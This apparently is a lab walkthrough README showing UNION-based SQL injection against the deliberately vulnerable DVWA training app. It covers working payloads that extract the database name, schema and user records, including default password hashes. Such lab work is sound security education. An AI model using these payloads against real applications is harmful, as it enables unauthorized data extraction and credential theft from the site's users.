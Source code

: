 # SQL_Injection_DVWA

## Step 1
  In case you are planning to follow along, I would recommend to follow my intial steup guide. <br>
 [Click](https://github.com/EleniChristopoulou/DVWA_Initial_Setup-/tree/main) here to check it out.

 ## Step 2
  Now it is the time where we interact with site in order to discover actual functionality.<br>
  It is important to pay attention on the input and the output.<br>
  Head to `SQL Injection` tab.
<p align="center"><img width="420" height="300" alt="image" src="https://github.com/user-attachments/assets/f8b6d3cb-2f65-4cd0-805b-fe7f4cb9fe83" /> </p>

  So let's try out the value 1. Okay, we can see we have an output, trying out alll the value from 1-5 we can conclude that probably there are 5 users. <br> 
  When we submit a value that is above 5 we get no result.
  
<div align="center">

| ID | Result | User |
| :-----------: | :----------: | :----------: |
| 1 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/8b1303ea-d01a-4470-849d-3396f57022af" /> | admin admin |
| 5 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/5e43f551-a677-4d43-b6a7-1f1bbf70b2ee" /> | Bob Smith |
| 6 | <img width="180" height="100" alt="image" src="https://github.com/user-attachments/assets/5caf2470-5cdd-4141-b911-7c0e70a50bc3" /> | Does_Not_Exist |

</div>

## Step 3
  Now we are ready to initiate some logs. Back to our DVWA site on the `SQL Injection` tab we submit any type of value, our goal is just to see the log.

  Since I submited the value 1, I receive the respected query, within the id hold the value 1. By following the steps depicted within the picture, we have sent our log to the repeater tab in Burp. There will be able to forward and modify the request.
  <p align="center"><img width="500" height="360" alt="image" src="https://github.com/user-attachments/assets/c8a38567-f1d4-4523-b584-6219512e10a1" />
</p>

## Step 4
  This is the part where we experiement with our SQL injection queries. Our purpose is to extract various information regarding the database, tables their columns and the data they hold. <br>

  <div align="center">

| Code | Data Extracted Description | SQL Query | Result |
| :-----------: | :----------: | :----------: | :----------: |
| 1 | Name of the database | `' UNION SELECT null, database() #` | <img width="377" height="201" alt="image" src="https://github.com/user-attachments/assets/53605c50-efbf-48ba-81a3-8b4424422d91" /> |
| 2 | Based on the name of the database we get the tables | `' UNION SELECT table_name, null FROM information_schema.tables WHERE table_schema='dvwa' #` | <img width="439" height="256" alt="image" src="https://github.com/user-attachments/assets/85ab4312-9743-4b7f-afc2-6d7ba70fe682" /> |
| 3 | Based on each table we get the columns  | `' UNION SELECT column_name, null FROM information_schema.columns WHERE table_name='guestbook' #` | <img width="426" height="282" alt="image" src="https://github.com/user-attachments/assets/8e1a7cd4-8fa0-44dd-bc86-c273ba1463e7" /> |

</div><br>

These are the tables, their columns and the data we extracted.

The query I used: <br>
``` 
  ' UNION SELECT comment_id, comment FROM guestbook UNION SELECT name, null FROM guestbook #
```

- guestbook
   - comment_id 
   - comment
   - name

<div align="center">
  
## Guestbook
| comment_id | comment | name |
| :-----------: | :----------: | :----------: |
| 1 | This is a test comment. | test |

</div> <br>

The query I used: <br>
``` 
  ' UNION SELECT user_id, first_name FROM users UNION SELECT last_name, user FROM users UNION SELECT password, avatar FROM users UNION SELECT last_login, failed_login FROM users #
```

- users
   - user_id 
   - first_name
   - last_name
   - user 
   - password
   - avatar
   - last_login
   - failed_login
 
<div align="center">
  
## users
| user_id | first_name | last_name | user | password | avatar | last_login | failed_login |
| :-----------: | :----------: | :----------: | :----------: | :----------: | :----------: | :----------: | :----------: |
| 1 | admin | admin | admin | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/admin.jpg | 2025-10-21 14:45:24 | 0 |
| 2 | Gordon | Brown | godonb | e99a18c428cb38d5f260853678922e03 | /hackable/users/gordonb.jpg | 2025-10-21 14:45:24 | 0 |
| 3 | Hack | Me | 1337 | 8d3533d75ae2c3966d7e0d4fcc69216b | /hackable/users/1337.jpg | 2025-10-21 14:45:24 | 0 |
| 4 | Pablo | Picasso | pablo | 0d107d09f5bbe40cade3de5c71e9e9b7 | /hackable/users/pablo.jpg | 2025-10-21 14:45:24 | 0 |
| 5 | Bob | Smith | smithy | 5f4dcc3b5aa765d61d8327deb882cf99 | /hackable/users/smithy.jpg | 2025-10-21 14:45:24 | 0 |

</div><br>
